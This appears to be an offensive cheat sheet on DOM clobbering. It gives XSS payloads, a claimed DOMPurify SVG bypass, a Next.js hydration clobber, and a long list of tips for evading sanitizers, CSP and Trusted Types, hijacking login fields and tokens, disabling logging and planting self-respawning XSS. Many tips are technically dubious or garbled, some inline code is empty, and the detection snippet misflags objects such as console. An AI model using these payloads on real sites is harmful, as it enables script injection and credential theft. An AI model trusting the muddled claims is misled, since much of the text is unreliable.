


## Clobber Detection & Automation Tools

Create detection primitives to identify polluted or overridden globals:

```javascript
// Detect if a global function has been clobbered
const checkClobber = (global) => {
  try {
    if (typeof window[global] !== 'function') {
      console.warn(`${global} is clobbered`, window[global]);
    }
  } catch (e) {
    console.error(`Error accessing ${global}`, e);
  }
};
['alert', 'fetch', 'eval', 'console', 'navigator'].forEach(checkClobber);
```

Also build:

- **JS fuzzers**: Brute-force window keys and auto-detect unusual object types
- **Chrome DevTools Protocol (CDP) CLI tools**: Enumerate and diff polluted `window` and `document` state automatically
- **Payload generators**: Generate clobbering vectors for known misconfigurations (`id="fetch"`, `name="alert"`, etc.)

---

## Sanitizer Bypasses and Defense Evasion

Add payloads that defeat:

- **DOMPurify** (via SVG namespace confusion)
- **Trusted Types** (through identity confusion)
- **Custom logic** (e.g., `if (!x.includes("script"))`)

### Example: SVG DOMPurify Bypass

```html
<svg><a xmlns="http://www.w3.org/2000/svg" id="foo" href="javascript:alert`XSS`">X</a></svg>
```

---

## Payload Annotation for Targeted Use

Instead of a flat payload dump, annotate each one:

```html
<!-- Payload 12: Clobbers "alert" -->
<form id="alert"></form>
<script>alert('XSS');</script> <!-- Will throw -->
// ✅ Chrome, ❌ Firefox (strict mode fails)
```

Use icons to track:

- Stealth level
- Breaking potential
- Browser support
- Framework survivability (e.g., SSR, hydration)

---

## Clobbering in Frameworks (SSR, React, Angular, etc.)

Test payloads inside real rendering environments. These survive:

- **Sanitization**
- **Server-side rendering (SSR)**
- **Client hydration**

### Example: Next.js SSR Clobber

```html
<!-- SSR Payload: Exploit in Next.js -->
<div id="__NEXT_DATA__"></div>
<script>
document.getElementById('__NEXT_DATA__').innerHTML = `<form id="document"></form>`;
</script>
```

- Works in `hydrateRoot()` from React 18+
- Test across Vue/Nuxt/Angular/Jinja

---

## Clobbering Inside Dev/Framework Logic

DOM clobbering breaks actual developer assumptions:

```javascript
// Common logic vulnerable to DOM clobbering
if (typeof fetch === "function") {
  fetch("/api"); // Clobber fetch with <form id="fetch">
}
```

Also test:

- Vue 2's `$refs` system
- Angular's `@ViewChild`
- jQuery’s `$('#id')` fallback collisions
- Any framework using `document.getElementById()` or relying on safe `typeof`

---


## Browser Compatibility Notes

| Technique             | Chrome | Firefox | Safari |
|-----------------------|--------|---------|--------|
| Basic Clobbering      | ✅     | ✅      | ✅     |
| Anchor `href` Clobber | ✅     | ✅      | ✅     |
| SVG Elements          | ✅     | ⚠️      | ⚠️     |
| `<marquee>`           | ✅     | ❌      | ❌     |
| `<keygen>`            | ⚠️     | ❌      | ❌     |
| `<portal>`            | ⚠️     | ❌      | ❌     |
| `<details>`           | ✅     | ✅      | ✅     |
| `<dialog>`            | ✅     | ✅      | ✅     |
| `<ruby>` + `<rt>`     | ✅     | ✅      | ✅     |
| Deprecated Tags       | ⚠️     | ❌      | ❌     |

> ⚠️ = Partial or experimental support • ❌ = Unsupported • ✅ = Fully supported

---

## Pro Tips for DOM Clobbering
- **Test Legacy Browsers**: Many techniques work best in older or Chromium-based browsers.  
- **Combine with CSP Bypasses**: Use clobbering to evade Content Security Policy restrictions.  
- **Use `console.dir()`**: Inspect clobbered objects for deeper understanding.  
- **Hard Refresh**: Use `Ctrl + Shift + R` to clear cache and avoid stale DOM artifacts.  
- **Sanitizer Bypasses**: Experiment with `cid:` protocol or malformed attributes to evade DOMPurify.  
- **Chain Clobbering + Mutation XSS**: Inject clobber tags, then mutate the DOM via `.innerHTML`, `.outerHTML`, or `appendChild()` to trigger DOMParser inconsistencies.  
- **Clobber Critical Globals**: Overwrite `location`, `name`, `top`, `frames`, or `open` — then force the application to call them (`window.open()`, redirects, etc.).  
- **Break `typeof` Expectations**: Replace expected functions with clobbered objects (`typeof open === 'object'`) to confuse logic relying on type guards.  
- **Use in Sandbox Escapes**: Combine clobbering with iframes and CSP tricks to escape sandboxed JS environments or iframe-restricted contexts.  
- **Hijack JSONP or Template Parsers**: Inject clobber vectors into dynamic templating systems (e.g., Handlebars, Mustache) to turn benign payloads into script-invoking objects.  
- **Clobber into Shadow DOM**: Use `<slot>` and `<template>` inside injected shadow roots to leak or override internal components.  
- **Defeat Angular/React DOM Checks**: Use attributes like `name="__proto__"` or `id="constructor"` to poison template-safe structures.  
- **Reverse Clobber Discovery**: Build a scanner that brute-forces global variables (`for (let k in window) { if (typeof window[k] === 'object' && k !== 'window') console.log(k); }`).  
- **Poison Live Collections**: Insert `name/id`-based elements that silently appear in collections like `document.forms`, `document.anchors`, or `document.images`.  
- **Abuse Form Submission Logic**: Inject `<form id="submit">` or `<input name="submit">` to hijack native `form.submit()` behavior.  
- **Target Fallback Routes**: Clobber `window.onload`, `window.onerror`, or legacy navigation handlers that are loosely protected.  
- **Trigger Prototype Pollution via DOM**: Use `name="__proto__"` in inputs, triggering object property injection in hybrid JS environments.  
- **Embed `<base>` in HTML Fragments**: Use a clobbered `<base>` tag to alter link resolution paths for subsequent XSS or CSRF vectors.  
- **Mimic Reserved Keywords**: Inject IDs like `constructor`, `__defineGetter__`, or `hasOwnProperty` to override critical JS prototypes.  
- **Exploit Browser Rehydration**: Drop poisoned DOM nodes into SSR apps (e.g., React, Svelte) that rehydrate untrusted HTML.  
- **Hijack Trusted Types via Clobbered Tags**: Bypass Trusted Types policies by manipulating element references during innerHTML assignment.  
- **Create Ghost Objects**: Inject multiple clobber elements (e.g., `id="top"` and `name="top"`) to confuse variable scope during JS resolution.  
- **Exploit Clobbered Event Handlers**: Target attributes like `onclick`, `onload`, `onerror` on SVG or image tags with unescaped content.  
- **Force DOMParser Failure**: Insert mismatched namespaces or malformed SVG tags that silently bypass filters but remain active in the DOM.  
- **Create Self-Healing XSS**: Auto-respawn payloads using clobbered script loaders or hidden form re-injectors on each refresh.  
- **Pollute Iframe Hierarchies**: Use `name="top"` or `id="parent"` in nested frames to hijack control in multi-frame apps.  
- **Override `window.frames` Indexes**: Inject named iframes that override numeric indices (e.g., `window.frames[0]`) in legacy code.  
- **Clobber `navigator`**: Forge `` to override `window.navigator` in unsafe contexts.  
- **Use `window.open` Self-Reference**: Hijack `open.location` or `open.document` when clobbering `open` as an object.  
- **Abuse `<object>` Inheritance**: Embed deeply nested `<object name="open">` to hijack global object references.  
- **Target Error Fallback Renderers**: Poison global names that error-handling logic uses to rebuild UI (e.g., `name="error"`, `name="msg"`).  
- **Exploit Timing Windows in Virtual DOMs**: Inject clobbers before hydration or diffing to cause internal key collisions.  
- **Destroy `alert` via `<form id="alert">`**: Useful to silence alert() for debugging or payloads that rely on blind execution.  
- **Hijack `window.self` or `window.parent`**: Use `<iframe name="self">` to override self-references in deep navigation flows.  
- **Embed `<template>` Junk Data**: Load dormant XSS payloads into `<template>` tags that activate during cloning.  
- **Evade Content Scanners with Broken Attributes**: Use Unicode obfuscation (`na\\u006De="foo"`) inside clobber tags.  
- **Trigger Clobbered Click Chains**: Use `id="click"` or `name="submit"` in hijacked handlers to activate fake UI paths.  
- **Replace `fetch` or `XMLHttpRequest`**: Use `<form id="fetch">` or `<iframe name="XMLHttpRequest">` to interfere with AJAX logic.  
- **Override Mutation Observers**: Inject nodes named `MutationObserver` or `observe` to spoof reactive behavior.  
- **Create Magic Auto-Expanding Clobbers**: Insert `document.getElementsByName()` targets that multiply across re-renders.  
- **Replay XSS from `localStorage` Clobber**: Hijack how apps deserialize or `eval` localStorage keys by preloading fake IDs.  
- **Override `submit()` with `submit` input**: Break native submission by injecting `<input name="submit">`.  
- **Poison WebComponent Registries**: Use custom-element collisions to override pre-existing DOM behavior.  
- **Combine Clobbering with CSS Escapes**: Trigger pseudo-element fallbacks via poisoned tag references (`content: attr(id)`).  
- **Evade DOMPurify with Fake Tags**: Abuse `<svg><g><a name="x" href="javascript:..."></a></g></svg>` inside preprocessed sanitizers.  
- **Target JSON Deserialization Callbacks**: Poison tag names that match template keys during API data merge.  
- **Inject Duplicate `id=` + `name=`**: Create unpredictable collisions using both properties simultaneously.  
- **Exploit Misused `window[...]`**: Clobber anything referenced dynamically (`window["open"] = payload`) with matching IDs.  
- **Clone Clobber Payloads via `cloneNode(true)`**: Force multiple injections by cloning polluted DOM trees.  
- **Build Delay-Activated Payloads**: Use `MutationObserver`, timers, or `requestIdleCallback()` to delay clobber activation.  
- **Override Navigation Guards**: Poison routes like `location.href` or `window.history` handlers using `<a id="location">`.
- **Override `Function.prototype` via embedded `<object>` clobber references inside CSP-bypassed SSR fragments.**
- **Trigger side-channel information leakage by polluting global variables used in conditional access (e.g., `if (navigator.vendor)` with `name="vendor"`).**
- **Exploit `Object.defineProperty` via clobbering `propertyDescriptor` assumptions in DOM reflection patterns.**
- **Preempt native function resolution by poisoning `window.constructor.constructor` call chains.**
- **Clobber `<script>` parsing order using forced `defer`/`async` mismatches via injected `<meta charset>` collisions.**
- **Break hydration pipelines in frameworks (Next.js, Astro) by injecting persistent clobbers during server HTML diff reconciliation.**
- **Forge HTMLCollection or NamedNodeMap conflicts with dual-namespace SVG+HTML tags referencing clobbered IDs.**
- **Leak SSR rendering state using `<noscript id="__NEXT_DATA__">` collisions to hijack rehydration logic.**
- **Override `document.all` ambiguity by reintroducing it via intentional legacy mode switches.**
- **Exploit parsing delays with fake closing tags (`</scr<script>ipt>`) combined with clobber ID references in CSP-unaware sanitizers.**
- **Hijack AI-assisted UI generators that rely on JSON-to-DOM renderers by inserting recursive clobbers in data inputs.**
- **Break accessibility and ARIA parsing by faking role-based selectors (`id="role"` or `aria-label="id"`).**
- **Inject `<input type=image name=onerror src=x>` to trigger JS errors that overwrite native event handlers.**
- **Combine clobbering with `<meta http-equiv>` manipulation to poison encoding assumptions mid-stream.**
- **Abuse Safari’s handling of `<keygen>` clobbering and autofill to pollute credential inputs cross-page.**
- **Force browser mode fallbacks (quirks mode) via malformed `DOCTYPE` combined with clobbered layout-affecting IDs.**
- **Poison script-injected `document.currentScript` by inserting shadowed `name="currentScript"` or `id="script"`.**
- **Exploit template literal injection points with fake `tagged` function IDs (`id="html"` in `${html`<p>`}`).**
- **Hijack clipboard-based attack flows by injecting `id="clipboardData"` or `id="navigator"` into invisible containers.**
- **Manipulate time-based JS logic via `id="Date"` or `name="Date"` clobbers injected before time-dependent APIs run.**
- **Override `setTimeout` or `clearInterval` with shadowed DOM objects to break async defenses in sandboxed payloads.**
- **Trigger internal garbage collection inconsistencies via indirect clobbers (`__defineGetter__`, `__lookupGetter__`).**
- **Use CSS attribute selectors `[id="constructor"]` on clobbered DOM nodes to leak JS prototype chains.**
- **Exploit `<iframe sandbox>`+`srcdoc` nesting with clobbered fallback IDs to override execution policy transitions.**
- **Disrupt error handling by clobbering `window.Error`, `window.console`, or `window.stackTraceLimit`.**
- **Force browser inconsistency by using reserved characters (`<div id="\\u0066etch">`) that resolve to globals.**
- **Defeat web workers using `name="Worker"` and injecting into the main thread’s DOM just before instantiation.**
- **Trigger memory pressure misbehavior by inflating `document.all` with thousands of clobbered numeric keys.**
- **Override critical observables (e.g., `ResizeObserver`, `IntersectionObserver`) via name-collision DOM injection.**
- **Poison `addEventListener` overloads by inserting named clobber forms with handler-like method references.**
- **Bypass `Object.freeze()` sandboxing by pre-poisoning the global object graph before the sandbox executes.**
- **Clobber `URLSearchParams` using query-based DOM injection (`?name=constructor`) and SSR hybrid misparsers.**
- **Trigger ESM fallback misbehavior by clobbering `<script type="module" id="import">` in hybrid ES/CJS bundles.**
- **Attack early DOM availability windows by injecting clobbers directly into `document.write()` streams.**
- **Clobber service worker registration paths by poisoning registration scripts via DOM mutation observers.**
- **Manipulate native token validation with `id="access_token"` collisions inside auto-loaded `<iframe>`s.**
- **Disable logging or monitoring via `id="log"` clobbers that override `console.log` or internal logger names.**
- **Interfere with native lazy loading by injecting `id="loading"` or `name="loading"` elements inside ``.**
- **Override `Intl.DateTimeFormat` behaviors by inserting shadowed locale-resolution DOM tags.**
- **Force XSLTProcessor misbehavior with `name="documentElement"` or `id="stylesheet"` during DOM-based transforms.**
- **Insert clobbers into `location.hash`-driven routers to hijack SPAs with path-based routing (`#id=location`).**
- **Preload fake `<link rel="manifest" href="...">` clobbers to override PWA config resolution.**
- **Exploit `performance.now()` manipulation via clobbered fallback objects passed to timing APIs.**
- **Disable `window.crypto.subtle` in legacy apps with fallback crypto libraries by injecting `name="crypto"`.**
- **Hijack autocomplete behavior in login flows by clobbering `name="username"` and `name="password"` during prefill.**
- **Trick visual test automation (e.g., Percy, Playwright) via `id="viewport"` or `id="screenshot"` collisions.**
- **Break contentEditable logic by injecting clobbers into live editable elements (`id="execCommand"`).**
- **Override regex-based validators by injecting `id="RegExp"` or similar near pattern-matching logic.**
- **Force premature `innerText` or `textContent` misresolution via `id="text"` or `name="length"` clobbers.**
